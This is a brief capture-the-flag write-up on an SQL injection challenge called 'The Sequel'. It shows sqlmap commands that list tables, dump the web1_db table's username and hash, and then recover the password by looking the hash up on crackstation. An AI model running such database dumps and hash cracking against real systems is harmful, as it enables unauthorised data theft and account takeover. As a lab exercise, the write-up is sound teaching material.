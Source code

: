 # The Sequel
This feels like any other SQLi challenge. I decided to use sqlmap to satisfy the script kiddie inside me,
![sqlmap](sqlmap.png)

```bash
python3 sqlmap.py -r ~/r.txt --tables
```

gives us the table names,
![table](table.png)

```
python3 sqlmap.py -r ~/r.txt -T web1_db --dump
```

gives us the username, hash
![dump](dump.png)

The hash was present on crackstation. The password was 'wildspirit'.
